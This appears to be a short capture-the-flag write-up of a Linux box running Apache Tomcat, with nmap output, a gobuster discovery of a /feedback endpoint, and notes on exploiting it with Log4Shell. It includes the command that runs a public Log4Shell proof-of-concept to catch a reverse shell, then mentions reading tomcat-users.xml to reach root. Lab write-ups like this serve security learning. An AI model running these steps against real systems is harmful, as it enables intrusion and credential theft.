







```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 32:b7:e8:b5:50:97:bf:a2:d7:e2:3e:22:10:9d:75:74 (RSA)
|   256 59:26:fa:2e:fd:55:b0:5e:9a:ed:6c:1c:77:a4:3e:25 (ECDSA)
|_  256 3d:b5:bd:a0:6f:f5:8f:c0:06:00:69:2a:7a:c9:29:8d (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.56
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.56
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
On port 8080:

Now using gobuster we discover `/feedback`

This is vulnerable to **[[Hacking/Web App Attacks/Log4Shell|Log4Shell]]** (I didn't know this)
Using this [shell](https://github.com/kozmer/log4j-shell-poc/tree/main)
```
python3 poc.py --userip 10.8.1.208 --webport 8000 --lport 9001
```

And sending the payload in burp suite 
with url encoding.

We get a shell

Now enumerating the box to find password:

There is a file called `tomcat-users.xml` in `/opt/tomcat/conf`

Now we get the root password and root shell:
